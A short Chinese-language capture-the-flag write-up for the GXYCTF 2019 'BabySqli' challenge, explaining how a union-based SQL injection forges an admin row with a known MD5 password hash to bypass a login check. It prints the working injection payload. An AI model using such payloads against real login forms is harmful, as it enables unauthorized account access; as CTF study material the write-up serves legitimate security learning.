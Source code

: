 ## [GXYCTF 2019]BabySqli

根据提示有以下语句（先base32再base64）

```
select * from user where username = '$name'
```

可以先爆破用户名为'admin'时，存在一组数据，其余时没有数据

```
我们可以先用大小写绕过，单引号闭合爆破出列数，也可直接union select 1,2,3#检测出列数为三列
```

先尝试寻常的sql注入，但是括号都被过滤了

```
有一种其他的方法，我们知道执行select * from user where username = '$name'语句会得到一组用户数据
```

这里只能猜，查询到的第二列数据应该作为用户名，第三列数据作为密码，账号为admin且输入的密码为sql查询中所显示的密码，所以构造paylaod：

```
name=1' union select 1,'admin','e10adc3949ba59abbe56e057f20f883e' %23&pw=123456

1.union select相当于在表中多列了一行
2.不能为admin而1是因为我们需要查询数据为空，从而使union select 构造的数据能被选取出
3.e10adc3949ba59abbe56e057f20f883e为123456的md5值，一般密码都会通过md5值加密（这也是猜的，建议用php自带的md5函数）
```

